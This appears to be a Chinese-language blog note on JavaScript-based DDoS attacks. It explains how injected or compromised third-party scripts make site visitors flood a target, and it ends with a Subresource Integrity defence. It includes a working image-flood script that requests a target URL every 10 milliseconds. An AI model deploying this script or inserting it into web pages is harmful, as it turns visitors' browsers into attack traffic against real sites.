 ```yaml
---
title: DDoS-JavaScript
date: 2019-12-12T15:41:36+08:00
tags: [DDoS, network, javaScript]
categories: [network]
description:
password:
---
```










# 关于JavaScript的DDoS攻击





> 引用：
>
> https://www.freebuf.com/news/66447.html





### 该攻击属于应用层攻击



- **Javascript实现DDos攻击原理分析**

> 　　现在网站的交互性都是通过JavaScript来实现的。通过添加JavaScript直接插入HTML元素，或通过远程来加载JavaScript。浏览器会读取script标签中的src属性并运行它所指向的脚本，其实不只是script标签可以用来攻击，简单来说只要是可以跨域访问的标签，如img，link等都可以实现DDos攻击。
>
> 　　既然这些标签可以访问外站的资源，那么我们是不是就可以设个定时器无限访问这个网站，从而达到攻击呢，那是肯定的。



<img src="1.jpg"  />

如果攻击者在一个网站中嵌入了恶意JavaScript脚本，那么该网站的每一个访客都将成为DDoS攻击中的一员。网站流量越高就意味着DDoS越严重。



**入侵共享JavaScript的第三方服务器**

许多网站使用的都是普通的JavaScript库，为了节约带宽、提升性能，通常还会将JavaScript脚本共享在第三方服务器上。也就是说如果网站上包含有指向第三方服务器的脚本标签，就意味着所有访问该网站的用户都将自动下载JavaScript脚本，并执行。不幸的是，如果攻击者入侵了该第三方服务器并在JavaScript脚本中注入了DDoS攻击代码，那结果可想而知了，所有的访客也将变成DDoS攻击中的一员。



一段简单的JS代码就能发起DoS攻击

```javascript
<head>
<script type='text/javascript'>
function imgflood(){
	//var TARGET = 'victim-website.com'
	var TARGET = "127.0.0.1:12345"
	var URI = '/index?'
	var pic = new Image()
	var rand = Math.floor(Math.random()*1000)
	pic.src = 'http://'+TARGET+URI+'val='+rand
	//pic.src = 'http://'+TARGET+URI+'val='+rand
}
setInterval(imgflood, 10)
alert(pic.src)
</script>
</head>
<body>
f*********************king
<script type='text/javascript'>imgflood()</script>
</body>
```



` setInterval(code, millisec)`:以millisec 毫秒的间隔执行code

由于大部分网页引用jquery是从外部引用的，因此可以从此发起中间人攻击

```html
<script src="https://code.jquery.com/jquery-1.10.2.min.js">
```

预防的话，就是通过script标签支持的属性integrity：这个属性支持验证该js脚本的hash值，确保不会引用来自外部恶意的js脚本

```html
<script src="https://code.jquery.com/jquery-1.10.2.min.js"  
        integrity="sha256-C6CB9UYIS9UJeqinPHWTHVqh/E1uhG5Twh+Y5qFQmYg="
         crossorigin="anonymous">
```





中间人攻击示意图：攻击其中的请求外部js的途径

![](2.jpg)











------

**在写js-DDoS的问题**：

#### [HTML引入外部js脚本，放在head中不起作用,放在body中才起作用](https://blog.csdn.net/SeekAndFindYou/article/details/82219815)

这是因为加载HTML文档时，先加载了js脚本后就不起作用了。
一般引入外部css文件放在head中，引入外部js脚本放在body中。
先渲染HTML文档(css)，再加载特效(js)



